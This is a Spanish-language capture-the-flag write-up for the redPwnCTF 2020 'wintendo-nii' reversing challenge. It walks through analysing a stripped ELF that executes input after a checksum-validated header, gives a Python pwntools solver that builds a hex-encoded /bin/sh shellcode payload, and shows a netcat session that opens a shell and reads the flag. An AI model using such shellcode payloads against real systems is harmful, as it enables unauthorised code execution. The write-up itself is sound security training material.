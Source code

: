 # wintendo-nii-reversing redPwnCTF writeup

Reto de la categoria de reversing de redPwnCTF

## File recognition
Observamos que es un ELF 64-bit, que  seguramente es el que se ejecuta en el servicio __2020.redpwnc.tf:31215__

Al observar los stirngs vemos que hay 5 que nos llaman la atencion, al parecer son nombree de juegos

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# file nii
nii: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=8def7e412da3017e4dd7fcf2c2d6ad0ac37ba8e4, stripped

root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# strings nii
4%d @
%b @
NIIv0.1:H9
TwltPrncH9F
MaroCartH9F
Fitnes++H9F
AmnlXingH9F
%b @
%b @
4%d @
%b @
int main(){puts(flag);}
.shstrtab
.note.gnu.build-id
.text
.data
```

Al correr el programa vemos que nos pide un input y nos muestra uno simbolos chinos que traducidos dicen "En 2020, Wentian Software Company-Todos los derechos reservados.
Por favor inserte el disco del juego", intenamos con un nombre de los juegos que encontramos en los strings y nada sucede.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# ./nii
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
MaroCart
```

## Analysis

Procedemos a desensamblar el binario en IDA 7.0, al ser un binario stripped no tiene simbolos por lo que nos es un poco mas dificil encontrar el main, sin embargo encontramos el entry_point del programa y empezaremos por ahi.

Vemos las lineas donde el programa recibe el input y lo manda a una funcion que despues de analizar el codigo es una validacion de que sean numeros hexadecimales de los strings que vimos previamente.

Por lo tanto vemos que el input es una codificacion hexadecimal de la version de la "consola" __NIIv0.1:__ concatenado con el nombre de algun juego, lo que quedaria asi __NIIv0.1:MaroCart__

Vemos aqui los pedazos de codigo.

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_1.JPG)

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_2.JPG)


Despues de pasar esas validaciones hace una operacion mas y posteriormente procede a ejecutar parte del input que va despues del string de la consola y el juego, lo que nos da una idea que a lo mejor el tenemos que pasar un shellcode.

Analizando mas a fondo vemos que es un header del mismo codifo que le estamos pasando, en caso de no ser este la ejecucion temrina.

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_3.JPG)

![alt text](https://github.com/mal4f4ma/writeups/blob/master/CTFs_games/wintendo-nii/img/ida_.JPG)

## Solution

Despues de analizar todo el coodigo vamos a hacer el el solver para la solucion de este problema, vamos a codificar la operacion del header para que nos de el header del shellcode que enviaremos que en este caso nos regresara una shell

```python
#!/usr/bin/python3
#Author: n0tM4l4f4m4
#Title: solver.py

import struct
import codecs
import binascii
from pwn import *

context.arch = "x86_64"
context.endian  = "little"

str_v = 'NIIv0.1:'
game_1 = 'TwltPrnc'
game_2 = 'MaroCart'
game_3 = 'Fitnes++'
game_4 = 'AmnlXing'

shell_ = asm(shellcraft.sh())

checksum = 0

for val in shell_:
    # print(val)
    v7 = val
    # v7 = ord(val)
    for val2 in range(7, -1, -1):
        if checksum >= 0x80000000:
            v10  = 0x80000011
            pass
        else:
            v10 = 0
            pass
        pass
        v12 = 2 * checksum
        v12 = (v12 & 0xffffff00) | (((v7 >> val2) & 1 ^ v12) & 0xff)
        checksum = v10 ^ v12
    pass

header = struct.pack("<L", checksum)

# print(str_v, game_4, header, shell_)
print(binascii.hexlify(bytes(str_v, 'utf-8') + bytes(game_4, 'utf-8') + header + shell_).upper())
```
Ejecutamos el script para que nos de el payload de los que vamos a meter al binario

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# python3 solver.py
b'4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05'
```
Nos vamos a conectar al servico __2020.redpwnc.tf:31215__ por netcat y paseremos el payload que el script nos dio.

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii

```

Vemos que efectivamente nos devolvio una shell y al usar el comando __ls__ nos devuelve ls lista de archivos donde viene la flag.text

Usaremos el comando __cat__ para leer la flag

```
root@n0tM4l4f4m4:~/Documents/CTFsGames/2020/redPwnCTF/rev/nii# nc 2020.redpwnc.tf 31215
二〇二〇年，稳天堂软件公司——版权所有。
请插入游戏磁盘⋯⋯
4E494976302E313A416D6E6C58696E673EA050B86A6848B82F62696E2F2F2F73504889E768726901018134240101010131F6566A085E4801E6564889E631D26A3B580F05
ls
bin
dev
flag.txt
lib
lib32
lib64
nii
cat flag.txt
It's dangerous to go alone. Take this!
flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}
```

## Flag
**flag{shellcoding_is_a_rev_skill,_too!_8F13E8F6}**
